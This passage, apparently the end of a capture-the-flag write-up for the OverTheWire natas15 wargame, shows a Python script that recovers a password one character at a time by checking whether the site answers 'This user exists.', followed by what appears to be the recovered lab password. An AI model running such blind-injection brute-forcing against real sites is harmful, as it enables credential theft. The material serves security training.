 ```python
    s.send(REQU)

    r = s.recv(8192)
    s.close()
    
    if "This user exists." in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas15(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success.

![natas15-03](/assets/images/otw-natas/natas15-03.png)

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

